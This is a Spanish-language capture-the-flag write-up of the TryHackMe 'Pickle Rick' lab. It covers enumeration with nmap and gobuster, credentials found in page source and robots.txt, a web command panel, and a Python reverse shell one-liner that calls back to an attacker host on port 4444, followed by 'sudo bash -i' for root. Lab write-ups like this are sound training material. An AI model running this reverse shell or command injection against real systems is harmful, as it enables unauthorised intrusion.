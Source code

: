 # Pickle Rick

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## 1. Información Inicial
- **Objetivo:** Obtener las tres recetas mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `wget`, `hydra`, `reverse shell`, `gtfobins`, `crackstation`, `netcat`, `find`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV -T5 10.10.29.248
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Podemos ver como están abiertos los puertos 22 y 80. Por SSH no conseguimos gran cosa por lo que observaremos el sitio web

![Vista previa del sitio web](screenshots/2.sitio_web.png)

Aparentemente en el sitio web no encontramos nada relevante, pero teniendo como costumbre mirar el código fuente y las cookies cada vez que revisamos una web, encontramos un comentario con un nombre de usuario: `R1ckRul3s`

![Código fuente con secreto](screenshots/3.source_code.png)

Seguimos con la enumeración de directorios con `gobuster` en la que tenemos varios ficheros y directorios a los que podemos acceder, en especial `robots.txt`.

```bash 
gobuster dir -u http://10.10.29.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```
![Realización de enumeración de directorios con gobuster](screenshots/4.gobuster.png)

## 3. Explotación

Obtenemos una cadena sospechosa, que posiblemente pueda ser la contraseña del usuario encontrado anteriormente:
`R1ckRul3s:Wubbalubbadubdub`

![Fichero robots.txt](screenshots/5.robots.txt.png)

Si accedemos al fichero /login.php, encontramos un inicio de sesión donde probar las credenciales, las cuáles son correctas.

![Inicio de sesión en sitio web con credenciales obtenidas](screenshots/6.login.png)

Nos redirige a un cuadro de texto en el que podemos ingresar comandos. Primero listamos el directorio actual y con `cat` obtendremos la primmera receta.

![Lista del directorio a través de cuadro de comandos](screenshots/7.commands.png)

```bash 
cat Sup3rS3cretPickl3Ingred.txt
```

![Primera clave mostrando el contenido del fichero](screenshots/8.first_key.png)

Otra opción es tratar de ingresar una `reverse shell` en el cuadro de comandos para obtener una shell en nuestra máquina local.

Ponemos netcat a la escucha por el puerto 4444.

```bash 
nc -lvnp 4444
```
En el cuadro de comandos, tras intentar muchas opciones, conseguimos ejecutar una reverse shell de python que nos devuelve una conexión en nuestra máquina local.

```bash 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.29.132",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Comando de reverse shell en cuadro de sitio web](screenshots/10.reverse_shell_python3.png)

![Conexión con netcat](screenshots/11.netcat_connection.png)

Entramos en el directorio personal de rick y mostraremos el contenido del fichero que contiene el segundo ingrediente.

```bash 
cat 'second ingredients'
```

![Segunda receta que encontramos en el directorio rick](screenshots/12.second_key.png)


## 4. Postexplotación

Es hora de escalar privilegios y el primer comando que se debe de ejecutar a la hora de elevar privilegios es:

```bash 
sudo -l
```

![Ejecución de sudo -l para comprobar permisos](screenshots/13.sudo-l.png)

Los resultados destacan que el usuario actual tiene permisos completos en el sistema, por lo que podemos acceder al usuario root fácilmente.

```bash 
sudo bash -i
```

Finalmente conseguimos acceso al usuario root y mostrar el tercer ingrediente.

![Ejecución de sudo -l para comprobar permisos](screenshots/14.root.png)


